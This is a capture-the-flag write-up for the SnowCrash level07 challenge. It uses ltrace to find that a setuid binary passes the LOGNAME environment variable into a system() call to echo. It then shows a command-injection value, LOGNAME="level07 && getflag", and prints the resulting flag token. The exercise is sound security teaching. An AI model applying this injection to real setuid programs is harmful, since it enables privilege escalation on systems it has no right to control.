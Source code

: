 # level07

## Hint

```shell-session
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

So we have an executable with an `suid` set to our target `flag07`.

If we execute the program:
```shell-session
level07@SnowCrash:~$ ./level07
level07
```

So what does the binary do anyway ?

## libtracing (ltrace)

On `ltrace` man page we can read:
> ltrace is a program that simply runs the specified command until it exits.
> It intercepts and records the dynamic library calls which are called by the executed process and the signals which are received by that process.
> It can also intercept and print the system calls executed by the program.

this tool will help us understand what's happening under-the-hood when a binary is fed to it as a parameter.

This is what we get with `level07` binary:
```shell-session
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffffd04, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                 = 2007
geteuid()                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
getenv("LOGNAME")                                         = "level07"
asprintf(0xbffffc54, 0x8048688, 0xbfffff42, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                    = 0
+++ exited (status 0) +++
```

There are two main piece of information to extract from this:
1. there is a call to `getenv()` which invokes the env variable `LOGNAME` and returns the string `level07`.
2. there is a call to the `echo` binary via the `system` function call.

A keen eye may already know how to exploit this.
Since there is a plain call to a system-wide binary `echo`, all we would have to do to make the binary call `getflag` for us would be to append a call to it in the env variable `LOGNAME`.

## getflag

```shell-session
level07@SnowCrash:~$ export LOGNAME="level07 && getflag"
level07@SnowCrash:~$ ./level07
level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

The reason we need to keep `level07` as part of the env variable is to keep the call to `echo` in the binary valid, and make it a full bash command of form `echo level07 && getflag`.

